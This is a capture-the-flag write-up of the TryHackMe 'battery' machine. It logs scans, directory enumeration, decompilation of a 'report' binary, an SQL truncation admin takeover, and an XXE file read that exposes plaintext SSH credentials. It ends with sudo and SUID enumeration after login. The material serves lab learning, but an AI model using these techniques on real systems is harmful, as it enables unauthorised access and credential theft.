








# THM - battery

## Date Commenced 21MAR2022


---
## IP Address
### Attempt 1
export IP=10.10.109.84

### Attempt 2
export IP=10.10.19.82

### Attempt 3
export IP=10.10.87.6


---
## Open Ports

> 22
>
> 80

Perform Basic **rustscan** scan:

> rustscan -a 10.10.109.84

```
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.109.84:22
Open 10.10.109.84:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 10:58 EDT
Initiating Ping Scan at 10:58
Scanning 10.10.109.84 [2 ports]
Completed Ping Scan at 10:58, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 10:58
Completed Parallel DNS resolution of 1 host. at 10:58, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 10:58
Scanning 10.10.109.84 [2 ports]
Discovered open port 80/tcp on 10.10.109.84
Discovered open port 22/tcp on 10.10.109.84
Completed Connect Scan at 10:58, 0.26s elapsed (2 total ports)
Nmap scan report for 10.10.109.84
Host is up, received syn-ack (0.26s latency).
Scanned at 2022-03-21 10:58:56 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.57 seconds
```

Perform **nmap** scan:

> nmap $IP -p 22,80,6500,6501 -sC -sV -A -oN ./Results/nmap01.log

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-21 10:59 EDT
Nmap scan report for 10.10.109.84
Host is up (0.24s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 14:6b:67:4c:1e:89:eb:cd:47:a2:40:6f:5f:5c:8c:c2 (DSA)
|   2048 66:42:f7:91:e4:7b:c6:7e:47:17:c6:27:a7:bc:6e:73 (RSA)
|   256 a8:6a:92:ca:12:af:85:42:e4:9c:2b:0e:b5:fb:a8:8b (ECDSA)
|_  256 62:e4:a3:f6:c6:19:ad:30:0a:30:a1:eb:4a:d3:12:d3 (ED25519)
80/tcp   open   http       Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
6500/tcp closed boks
6501/tcp closed boks_servc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.61 seconds
```


---
## Web Page
Nothing of interest on the web page or in the source code:



### Robots.txt
No *Robots*


---
## Gobuster
Run a **gobuster** scan:

> gobuster dir -u http://$IP  --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 250 2> /dev/null -o ./Results/gobuster01.log

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.109.84
[+] Method:                  GET
[+] Threads:                 250
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/21 11:05:14 Starting gobuster in directory enumeration mode
===============================================================
/report               (Status: 200) [Size: 16912]
/scripts              (Status: 301) [Size: 313] [--> http://10.10.109.84/scripts/]
/server-status        (Status: 403) [Size: 292]
===============================================================
2022/03/21 11:12:15 Finished
===============================================================
```

Got a file from */report* that as some usernames (email accounts) listed

```
strings report              
/lib64/ld-linux-x86-64.so.2
__isoc99_scanf
puts
printf
system
__cxa_finalize
strcmp
__libc_start_main
libc.so.6
GLIBC_2.7
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
admin@bank.a
Password Updated Successfully!
Sorry you can't update the password
Welcome Guest
===================Available Options==============
1. Check users
2. Add user
3. Delete user
4. change password
5. Exit
clear
===============List of active users================
support@bank.a
contact@bank.a
cyber@bank.a
admins@bank.a
sam@bank.a
admin0@bank.a
super_user@bank.a
control_admin@bank.a
it_admin@bank.a
Welcome To ABC DEF Bank Managemet System!
UserName : 
Password : 
guest
Your Choice : 
email : 
not available for guest account
Wrong option
Wrong username or password
;*3$"
GCC: (Debian 9.3.0-15) 9.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7452
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
report.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
update
_ITM_deregisterTMCloneTable
puts@@GLIBC_2.2.5
_edata
options
system@@GLIBC_2.2.5
users
printf@@GLIBC_2.2.5
__libc_start_main@@GLIBC_2.2.5
__data_start
strcmp@@GLIBC_2.2.5
__gmon_start__
__dso_handle
_IO_stdin_used
__libc_csu_init
__bss_start
main
__isoc99_scanf@@GLIBC_2.7
__TMC_END__
_ITM_registerTMCloneTable
__cxa_finalize@@GLIBC_2.2.5
.symtab
.strtab
.shstrtab
.interp
.note.gnu.build-id
.note.ABI-tag
.gnu.hash
.dynsym
.dynstr
.gnu.version
.gnu.version_r
.rela.dyn
.rela.plt
.init
.plt.got
.text
.fini
.rodata
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got.plt
.data
.bss
.comment
```


---
## FeroxBuster
Run **feroxbuster** to find some files:

> feroxbuster -u http://10.10.109.84 -x php,txt,epub,html,js,pdf

```
___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.6.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.109.84
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.6.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [php, txt, epub, html, js, pdf]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       24l       57w      406c http://10.10.109.84/
301      GET        9l       28w      313c http://10.10.109.84/scripts => http://10.10.109.84/scripts/
403      GET       10l       30w      283c http://10.10.109.84/.php
200      GET       25l       56w      663c http://10.10.109.84/admin.php
302      GET        0l        0w        0c http://10.10.109.84/logout.php => admin.php
200      GET       27l       61w      715c http://10.10.109.84/register.php
403      GET       10l       30w      284c http://10.10.109.84/.html
200      GET       21l      131w    16912c http://10.10.109.84/report
200      GET      112l      193w     2334c http://10.10.109.84/forms.php
200      GET       24l       57w      406c http://10.10.109.84/index.html
302      GET       55l       86w      908c http://10.10.109.84/dashboard.php => admin.php
302      GET       70l      119w     1259c http://10.10.109.84/with.php => admin.php
200      GET       66l      110w     1104c http://10.10.109.84/acc.php
403      GET       10l       30w      292c http://10.10.109.84/server-status
302      GET       70l      119w     1258c http://10.10.109.84/depo.php => admin.php
302      GET       72l      129w     1399c http://10.10.109.84/tra.php => admin.php
[####################] - 18m   630000/630000  0s      found:16      errors:1      
[####################] - 18m   210000/210000  191/s   http://10.10.109.84 
[####################] - 18m   210000/210000  191/s   http://10.10.109.84/ 
[####################] - 0s    210000/210000  0/s     http://10.10.109.84/scripts => Directory listing (add -e to scan)
```


---
## Web Page - take 2
Found some *php* files, check them out. There is a login page and a register page.





There is also a *forms.php* page that only admins can access and it auto redirects to the home page.

Can successfully register a user (UN: shane PW: Password1), which takes me to a bank account page:



There are tabs that are for withdrawing and depositing money. When the form is completed, a popup script is seen.

### Enumerate the web page some more
Using **curl**:

> curl -v $IP/admin.php

```
*   Trying 10.10.109.84:80...
* Connected to 10.10.109.84 (10.10.109.84) port 80 (#0)
> GET /admin.php HTTP/1.1
> Host: 10.10.109.84
> User-Agent: curl/7.81.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Mon, 21 Mar 2022 15:40:58 GMT
< Server: Apache/2.4.7 (Ubuntu)
< X-Powered-By: PHP/5.5.9-1ubuntu4.29
< Set-Cookie: PHPSESSID=e60mnr8suoe3qab25d43i7ftr3; path=/
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 663
< Content-Type: text/html
< 
<html>
<title>Login</title>
<body style="background-color:black">
<br><br><br>
<h3 style="color:red;text-align:center">Bank Of Abc Def User Login</h3>
<br>
<style>
form{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}
</style>
<form method="POST" style="text-align:center" name="myForm">
<input type="text" name="uname" placeholder="Username" maxlength="14"><br><br><br>
<input type="password" name="password" placeholder="password"><br><br><br>
<input type="submit" value="Submit" name="btn"><br><br><br>
<a href="register.php">New user?register here.</a>
</form>
</body>
</html>

* Connection #0 to host 10.10.109.84 left intact
```


---
## Ghidra
Run the *report* file through **ghidra** to see whats inside. Found *guest* user password of *guest*:

```
undefined8 main(void)

{
  int iVar1;
  int local_8c;
  char local_88 [32];
  char local_68 [32];
  undefined local_48 [32];
  undefined local_28 [32];
  
  local_8c = 0;
  puts("\n\n\n");
  puts("Welcome To ABC DEF Bank Managemet System!\n\n");
  printf("UserName : ");
  __isoc99_scanf(&DAT_001021f0,local_68);
  puts("\n");
  printf("Password : ");
  __isoc99_scanf(&DAT_001021f0,local_88);
  iVar1 = strcmp(local_68,"guest");
  if ((iVar1 == 0) && (iVar1 = strcmp(local_88,"guest"), iVar1 == 0)) {
    options();
    while (local_8c != 5) {
      printf("Your Choice : ");
      __isoc99_scanf(&DAT_00102216,&local_8c);
      if (local_8c == 1) {
        users();
      }
      else if (local_8c == 4) {
        printf("email : ");
        __isoc99_scanf(&DAT_001021f0,local_28);
        puts("\n");
        printf("Password : ");
        __isoc99_scanf(&DAT_001021f0,local_48);
        update(local_28,local_48);
      }
      else if ((local_8c == 3) || (local_8c == 2)) {
        puts("not available for guest account\n");
        system("clear");
        options();
      }
      else {
        puts("Wrong option\n");
        system("clear");
        options();
      }
    }
  }
  else {
    printf("Wrong username or password");
  }
  return 0;
}
```


---
## Burp, SQL Truncation, and XXE
Ok so maybe I needed some hepl here, but this is about learning. I will try and explain this for future me:

### SQL Truncation
So, in the source code of the *register.php*, there is a *maxlength* flag set to 12 characters. 

> https://resources.infosecinstitute.com/topic/sql-truncation-attack/



Try to use this to and register a new/old account using the existing *admin@bank.a* user, but adding characters to the end to make the system think it is a new account. The code will truncate the username and remove the trailing characters. But when you log in to the *admin.php*, the account will be seen as the admin user. Using **Burp** to intercept the *POST* request and modify the *uname* field to add two trailing space characters and then an "a". A new user is successfully added and is then used to login to *admin.php*.

Now logged in as an *admin* we can access the *command* tab. Which appears to be a method of sending messges to account holders. Use **Burp* again to see what it is doing.



### XXE
The *php* code is using *XML*. Try something new called *XXE*:



So we can get the output from *cat /etc/passwd*, so try a few more commands. Tried to read a few more files, but no luck. tried to read files from the */var/www/html/* directory and see whats what. Apparently, need to run these through a *php* filter.



A large block of random text is returned. The *php Filter* encoded the contents of *acc.php* in *base64*. Time to decode:

> echo "PCFET0NUWVBFIGh0bWw+CjxodG1sPgo8aGVhZD4KPHN0eWxlPgpmb3JtCnsKICBib3JkZXI6IDJweCBzb2xpZCBibGFjazsKICBvdXRsaW5lOiAjNENBRjUwIHNvbGlkIDNweDsKICBtYXJnaW46IGF1dG87CiAgd2lkdGg6MTgwcHg7CiAgcGFkZGluZzogMjBweDsKICB0ZXh0LWFsaWduOiBjZW50ZXI7Cn0KCgp1bCB7CiAgbGlzdC1zdHlsZS10eXBlOiBub25lOwogIG1hcmdpbjogMDsKICBwYWRkaW5nOiAwOwogIG92ZXJmbG93OiBoaWRkZW47CiAgYmFja2dyb3VuZC1jb2xvcjogIzMzMzsKfQoKbGkgewogIGZsb2F0OiBsZWZ0OwogIGJvcmRlci1yaWdodDoxcHggc29saWQgI2JiYjsKfQoKbGk6bGFzdC1jaGlsZCB7CiAgYm9yZGVyLXJpZ2h0OiBub25lOwp9CgpsaSBhIHsKICBkaXNwbGF5OiBibG9jazsKICBjb2xvcjogd2hpdGU7CiAgdGV4dC1hbGlnbjogY2VudGVyOwogIHBhZGRpbmc6IDE0cHggMTZweDsKICB0ZXh0LWRlY29yYXRpb246IG5vbmU7Cn0KCmxpIGE6aG92ZXI6bm90KC5hY3RpdmUpIHsKICBiYWNrZ3JvdW5kLWNvbG9yOiAjMTExOwp9CgouYWN0aXZlIHsKICBiYWNrZ3JvdW5kLWNvbG9yOiBibHVlOwp9Cjwvc3R5bGU+CjwvaGVhZD4KPGJvZHk+Cgo8dWw+CiAgPGxpPjxhIGhyZWY9ImRhc2hib2FyZC5waHAiPkRhc2hib2FyZDwvYT48L2xpPgogIDxsaT48YSBocmVmPSJ3aXRoLnBocCI+V2l0aGRyYXcgTW9uZXk8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0iZGVwby5waHAiPkRlcG9zaXQgTW9uZXk8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0idHJhLnBocCI+VHJhbnNmZXIgTW9uZXk8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0iYWNjLnBocCI+TXkgQWNjb3VudDwvYT48L2xpPgogIDxsaT48YSBocmVmPSJmb3Jtcy5waHAiPmNvbW1hbmQ8L2E+PC9saT4KICA8bGk+PGEgaHJlZj0ibG9nb3V0LnBocCI+TG9nb3V0PC9hPjwvbGk+CiAgPGxpIHN0eWxlPSJmbG9hdDpyaWdodCI+PGEgaHJlZj0iY29udGFjdC5waHAiPkNvbnRhY3QgVXM8L2E+PC9saT4KPC91bD48YnI+PGJyPjxicj48YnI+Cgo8L2JvZHk+CjwvaHRtbD4KCjw/cGhwCgpzZXNzaW9uX3N0YXJ0KCk7CmlmKGlzc2V0KCRfU0VTU0lPTlsnZmF2Y29sb3InXSkgYW5kICRfU0VTU0lPTlsnZmF2Y29sb3InXT09PSJhZG1pbkBiYW5rLmEiKQp7CgplY2hvICI8aDMgc3R5bGU9J3RleHQtYWxpZ246Y2VudGVyOyc+V2VjbG9tZSB0byBBY2NvdW50IGNvbnRyb2wgcGFuZWw8L2gzPiI7CmVjaG8gIjxmb3JtIG1ldGhvZD0nUE9TVCc+IjsKZWNobyAiPGlucHV0IHR5cGU9J3RleHQnIHBsYWNlaG9sZGVyPSdBY2NvdW50IG51bWJlcicgbmFtZT0nYWNubyc+IjsKZWNobyAiPGJyPjxicj48YnI+IjsKZWNobyAiPGlucHV0IHR5cGU9J3RleHQnIHBsYWNlaG9sZGVyPSdNZXNzYWdlJyBuYW1lPSdtc2cnPiI7CmVjaG8gIjxpbnB1dCB0eXBlPSdzdWJtaXQnIHZhbHVlPSdTZW5kJyBuYW1lPSdidG4nPiI7CmVjaG8gIjwvZm9ybT4iOwovL01ZIENSRURTIDotIGN5YmVyOnN1cGVyI3NlY3VyZSZwYXNzd29yZCEKaWYoaXNzZXQoJF9QT1NUWydidG4nXSkpCnsKJG1zPSRfUE9TVFsnbXNnJ107CmVjaG8gIm1zOiIuJG1zOwppZigkbXM9PT0iaWQiKQp7CnN5c3RlbSgkbXMpOwp9CmVsc2UgaWYoJG1zPT09Indob2FtaSIpCnsKc3lzdGVtKCRtcyk7Cn0KZWxzZQp7CmVjaG8gIjxzY3JpcHQ+YWxlcnQoJ1JDRSBEZXRlY3RlZCEnKTwvc2NyaXB0PiI7CnNlc3Npb25fZGVzdHJveSgpOwp1bnNldCgkX1NFU1NJT05bJ2ZhdmNvbG9yJ10pOwpoZWFkZXIoIlJlZnJlc2g6IDAuMTsgdXJsPWluZGV4Lmh0bWwiKTsKfQp9Cn0KZWxzZQp7CmVjaG8gIjxzY3JpcHQ+YWxlcnQoJ09ubHkgQWRtaW5zIGNhbiBhY2Nlc3MgdGhpcyBwYWdlIScpPC9zY3JpcHQ+IjsKc2Vzc2lvbl9kZXN0cm95KCk7CnVuc2V0KCRfU0VTU0lPTlsnZmF2Y29sb3InXSk7CmhlYWRlcigiUmVmcmVzaDogMC4xOyB1cmw9aW5kZXguaHRtbCIpOwp9Cj8+Cg==" | base64 -d

```
<!DOCTYPE html>
<html>
<head>
<style>
form
{
  border: 2px solid black;
  outline: #4CAF50 solid 3px;
  margin: auto;
  width:180px;
  padding: 20px;
  text-align: center;
}


ul {
  list-style-type: none;
  margin: 0;
  padding: 0;
  overflow: hidden;
  background-color: #333;
}

li {
  float: left;
  border-right:1px solid #bbb;
}

li:last-child {
  border-right: none;
}

li a {
  display: block;
  color: white;
  text-align: center;
  padding: 14px 16px;
  text-decoration: none;
}

li a:hover:not(.active) {
  background-color: #111;
}

.active {
  background-color: blue;
}
</style>
</head>
<body>

<ul>
  <li><a href="dashboard.php">Dashboard</a></li>
  <li><a href="with.php">Withdraw Money</a></li>
  <li><a href="depo.php">Deposit Money</a></li>
  <li><a href="tra.php">Transfer Money</a></li>
  <li><a href="acc.php">My Account</a></li>
  <li><a href="forms.php">command</a></li>
  <li><a href="logout.php">Logout</a></li>
  <li style="float:right"><a href="contact.php">Contact Us</a></li>
</ul><br><br><br><br>

</body>
</html>

<?php

session_start();
if(isset($_SESSION['favcolor']) and $_SESSION['favcolor']==="admin@bank.a")
{

echo "<h3 style='text-align:center;'>Weclome to Account control panel</h3>";
echo "<form method='POST'>";
echo "<input type='text' placeholder='Account number' name='acno'>";
echo "<br><br><br>";
echo "<input type='text' placeholder='Message' name='msg'>";
echo "<input type='submit' value='Send' name='btn'>";
echo "</form>";
//MY CREDS :- cyber:super#secure&password!
if(isset($_POST['btn']))
{
$ms=$_POST['msg'];
echo "ms:".$ms;
if($ms==="id")
{
system($ms);
}
else if($ms==="whoami")
{
system($ms);
}
else
{
echo "<script>alert('RCE Detected!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
}
}
else
{
echo "<script>alert('Only Admins can access this page!')</script>";
session_destroy();
unset($_SESSION['favcolor']);
header("Refresh: 0.1; url=index.html");
}
?>
```

### My Creds
User credentials found:

> UN: cyber
>
> PW: super#secure&password!

Try these in **SSH**.


---
## SSH
Success:

> ssh cyber@10.10.87.6

```
The authenticity of host '10.10.87.6 (10.10.87.6)' can't be established.
ED25519 key fingerprint is SHA256:bTNXpvfykuLebPN3kSFZTMvEtACHZnk64YKhtu6tMKI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.87.6' (ED25519) to the list of known hosts.
cyber@10.10.87.6's password: 
Welcome to Ubuntu 14.04.1 LTS (GNU/Linux 3.13.0-32-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Mar 22 16:44:41 IST 2022

  System load:  2.57              Processes:           104
  Usage of /:   2.4% of 68.28GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.87.6
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Tue Nov 17 17:02:47 2020 from 192.168.29.248
cyber@ubuntu:~$ ls
flag1.txt  run.py
cyber@ubuntu:~$ cat flag1.txt 
THM{6f7e4dd134e19af144c88e4fe46c67ea}

Sorry I am not good in designing ascii art :(
```


---
## Linux Enum
Poke the Penguin:

### sudo
This produces a surprising result, as it seems the *cyber* user can run the *python* script in *run.py* with *sudo* and no password, despit the fact the I cannot **cat** the file to know what is in it:

```
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
cyber@ubuntu:~$ groups
cyber adm cdrom dip plugdev lpadmin sambashare
cyber@ubuntu:~$ cat /etc/shadow
cat: /etc/shadow: Permission denied
cyber@ubuntu:~$ ls
flag1.txt  run.py
```

Give it a run:

```
cyber@ubuntu:~$ sudo /usr/bin/python3 /home/cyber/run.py
Hey Cyber I have tested all the main components of our web server but something unusal happened from my end!

```

### SUID 
Not much to see here:

```
cyber@ubuntu:~$ find / -perm -4000 2> /dev/null
/bin/ping6
/bin/fusermount
/bin/su
/bin/ping
/bin/mount
/bin/umount
/usr/bin/at
/usr/bin/gpasswd
/usr/bin/mtr
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/traceroute6.iputils
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/pt_chown
